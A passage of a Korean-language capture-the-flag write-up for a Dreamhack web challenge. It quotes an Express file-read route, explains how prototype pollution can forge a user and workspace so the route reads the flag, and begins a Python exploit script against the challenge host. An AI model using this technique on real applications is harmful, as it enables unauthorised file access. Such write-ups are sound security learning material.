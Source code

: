 ```javascript
 app.get("/api/users/:userid/:ws/:fname", (req, res) => {
        const userid = req.params.userid || "";
        const ws_name = req.params.ws || "";
        const f_name = req.params.fname || "";
        const token = req.body.token || "";

        if(!userid || !token)
            return res.status(400).json({ok: false, err: "Invalid userid or token"});
        if(!check_session(userid, token))
            return res.status(403).json({ok: false, err: "Failed to validate session"});

        const user = users[userid];
        if(!ws_name)
            return res.status(400).json({ok: false, err: "Invalid workspace name"});
       
        const workspace = user.workspaces[ws_name];
        if(!workspace)
            return res.status(404).json({ok: false, err: "Failed to find workspace"});

        if(!f_name)
            return res.status(400).json({ok: false, err: "Invalid file name"});

        const f_path = workspace[f_name];
        console.log(f_path)
        if(!f_path)
            return res.status(404).json({ok: false, err: "Failed to find file"});
        
        console.log(`user.base_dir : ${user.base_dir}`)
        const content = read_b64_file(path.join(user.base_dir, f_path));
        if(typeof content == "undefined")
            return res.status(500).json({ok: false, err: "Internal server error"});

        res.status(200).json({ok: true, file_content: content});
    });
```
이제 `flag`를 읽기 위해서는 `f_path`의 값도 `flag`로 만들어줘야 한다. 하지만 이 `f_path`는 `workspace` 객체에 있고, 또 `workspace` 객체는 `workspaces` 객체에 있다. 결국에는 `Prototype Pollution`을 이용해서 새로운 토큰과 임의의 user의 `workspaces` 객체를 임의의로 생성해서 새로운 사용자 객체를 만들어줘야 한다. 그래서 나는 `pass`, `owner`, `expire`, `base_dir`, `flag`(flag는 `f_path`를 가르키는 키 값임), `workspaces`를 오염시켜서 조건을 만족 시키고, 플래그를 얻었다.

```python
from itsdangerous import base64_decode
import requests
import json
import string 
import random

LENGTH = 4
CHALL_URL = "http://host3.dreamhack.games:19598"
#CHALL_URL = "http://localhost:8888" # Locally
STRING_POOL = string.digits
USERNAME = ""
PASSWORD = "aaaaaaaaaaa"
HEADER = {
    "Content-Type":"application/json"
}

for i in range(LENGTH):
    USERNAME += random.choice(STRING_POOL) 
print(f'[+] USERNAME : {USERNAME}')

# Create the User Object
requests.post(CHALL_URL + '/api/users', headers=HEADER, data=json.dumps({"userid":USERNAME, "pass":PASSWORD}))
```